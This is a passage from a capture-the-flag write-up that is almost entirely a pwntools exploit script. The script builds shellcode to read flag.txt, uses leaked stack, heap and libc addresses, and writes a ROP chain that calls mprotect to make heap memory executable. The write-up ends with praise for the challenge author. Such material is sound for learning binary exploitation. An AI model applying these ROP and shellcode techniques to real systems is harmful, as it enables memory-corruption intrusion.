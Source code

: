 ```python

 s64 = shellcraft.amd64.close(0)
 s64 += shellcraft.amd64.open('flag.txt')
 s64 += shellcraft.amd64.linux.syscall("SYS_read", 0, "rsp", 0xff)
 s64 += shellcraft.amd64.linux.syscall("SYS_write", 1, "rsp", 0x50)
 s64 += shellcraft.amd64.linux.syscall("SYS_exit_group", 0)
 shellcode = asm(s64)

 writef(shellcode, 'y')
 targetreturn = stackleak - 288
 log.info("general target to overwrite: " + hex(targetreturn))
 \#libc gadgets
 poprdi = libc.address + 0x0000000000021882 #: pop rdi; ret;
 poprsi = libc.address + 0x0000000000022192 #: pop rsi; ret;
 poprdx = libc.address + 0x0000000000001b9a #: pop rdx; ret;
 poprsir15 = libc.address + 0x0000000000021880 #: pop rsi; pop r15; ret;

 targetheap = heapleak-4704
 write(targetreturn+64, hex(targetheap))
 write(targetreturn+56, hex(libc.symbols['mprotect']))
 write(targetreturn+48, hex(7))
 write(targetreturn+40, hex(poprdx))
 write(targetreturn+32, hex((heapleak-0x2000)>>12<<12))
 write(targetreturn+24, hex(poprdi))
 write(targetreturn+16, "0xdeadbabe")
 write(targetreturn+8, "0x12000")
 context.log_level = 'debug'
 write(targetreturn, hex(poprsir15))
 p.close()
```




Overall, this challenge was very fun. The author PewZ did a great job, just like all of his other problems in this CTF. 
